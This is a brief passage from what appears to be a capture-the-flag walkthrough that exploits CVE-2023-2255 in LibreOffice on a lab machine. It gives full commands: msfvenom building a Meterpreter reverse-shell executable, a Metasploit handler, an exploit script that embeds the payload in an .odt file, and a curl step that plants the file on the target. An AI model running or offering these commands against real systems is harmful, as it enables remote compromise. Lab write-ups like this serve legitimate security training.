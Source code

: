 So I found CVE-2023-2255 and used this repo https://github.com/elweth-sec/CVE-2023-2255 let's exploit it:

```bash
git clone https://github.com/elweth-sec/CVE-2023-2255
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.61 LPORT=5555 -f exe > rev_shell.exe
msfconsole 
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST tun0
set LPORT 5555
run
```

Then upload using Tony's session rev_shell exe to Public Users directory. Then cd to CVE's directory and make it execute our rev_shell.exe:

```bash
python3 CVE-2023-2255.py --cmd 'c:\users\public\rev_shell.exe' --output 'hacked.odt'
```

Then upload it again useing web_account session:

```bash
curl "http://10.10.14.61:8000/hacked.odt" -o C:\xampp\htdocs\internal\applications\casual.odt
```

![msf_result](images/Office24.png)